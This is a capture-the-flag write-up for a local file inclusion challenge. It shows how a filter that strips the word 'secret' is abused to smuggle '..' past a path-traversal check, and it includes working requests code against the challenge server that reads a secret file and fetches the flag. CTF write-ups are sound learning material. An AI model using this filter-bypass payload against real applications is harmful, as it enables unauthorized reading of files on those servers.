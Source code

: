 Challenge author: t0m7r00z

This task introduces LFI, our goal is to read this file **billet_task/secret_1337_sh1t/secret_word.txt**

and we'll be doing so by exploiting this line.

```python
first_search = os.path.join(os.getcwd(), "registres", *reg).replace("secret", "") 

# There are two things that we care about.
# First it unpacks the reg value which means if I pass in a list ["a", "b"]
# The path becomes os.getcwd()/registres/a/b
# And the other thing is replace("secret", "") and we'll be seeing why later
```
The file we need is at **os.getcwd()/billet_task/secret_1337_sh1t/secret_word.txt** but it joins our input to **os.getcwd()/registres** so how can we read it?

**First:** We want to leave registres folder and read from billet_task but we can't use **..** because of this

```python
if ("/" in reg) or (".." in reg):
    data = "Je vois des trucs interdits ici."
```

This is when we exploit ```.replace("secret", "")``` by giving it **..secret** it will automatically bypass the filter and then remove "secret".


**Second:** Now we want to read secret_1337_sh1t/secret_word.txt but the problem is that "secret" get's replaced with "".

Solution: **sec**secret**ret**_1337_sh1t/**sec**secret**ret**_word.txt

So our whole payload becomes ad follows:

```["..secret", "billet_task", "secsecretret_1337_sh1t", "secsecretret_word.txt"]``` 


```python
r = requests.post("https://infreezy.pythonanywhere.com/get_registre", json={"registre":["..secret","billet_task", "secsecretret_1337_sh1t", "secsecretret_word.txt"]})
print(r.text)
# s3c5e7_1337_f@k1ng_m3s5Ss4ge
```
All that is left to do is to access /get_billet?secret=s3c5e7_1337_f@k1ng_m3s5Ss4ge

```python
with open("flag.png","wb") as file:
    r = requests.get("https://infreezy.pythonanywhere.com/get_billet?secret=s3c5e7_1337_f@k1ng_m3s5Ss4ge")
    file.write(r.content)
```

![](../Rev/images/flag.png)
